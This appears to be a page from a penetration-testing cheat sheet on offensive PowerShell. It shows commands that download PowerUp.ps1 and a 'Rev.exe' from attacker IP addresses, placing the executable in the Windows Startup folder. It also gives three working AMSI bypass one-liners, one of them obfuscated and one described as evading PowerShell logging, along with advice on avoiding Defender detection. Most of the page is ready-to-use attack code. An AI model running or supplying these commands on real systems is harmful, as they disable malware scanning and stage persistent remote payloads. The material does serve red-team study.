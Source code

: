 for creating an opsec-safe downloader and obfuscator check out:

{% embed url="https://github.com/danielbohannon/Invoke-CradleCrafter" %}

{% hint style="info" %}
In some cases windows defender will be triggered if you try to load scripts from known public sources such as github so its better if you host the script on your own machine or somewhere else.
{% endhint %}

### <mark style="color:orange;">Download Files</mark>

```
# Any version
(New-Object System.Net.WebClient).DownloadFile("http://192.168.119.155/PowerUp.ps1", "C:\Windows\Temp\PowerUp.ps1")

# Powershell 4+
## You can use 'IWR' as a shorthand
Invoke-WebRequest "http://10.10.16.7/Rev.exe" -OutFile "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\Rev.exe"
```

#### for more file transfer techniques, check out [this section](broken-reference).

### <mark style="color:orange;">Bypass AMSI</mark>

‘Plain’ AMSI bypass example:

```
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

run this to bypass AMSI in the current powershell terminal that you are using:

```
powershell -ep bypass

SET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

Another bypass, which is not detected by PowerShell autologging:

```
[Delegate]::CreateDelegate(("Func``3[String, $(([String].Assembly.GetType('System.Reflection.Bindin'+'gFlags')).FullName), System.Reflection.FieldInfo]" -as [String].Assembly.GetType('System.T'+'ype')), [Object]([Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')),('GetFie'+'ld')).Invoke('amsiInitFailed',(('Non'+'Public,Static') -as [String].Assembly.GetType('System.Reflection.Bindin'+'gFlags'))).SetValue($null,$True)
```

{% embed url="https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell" %}

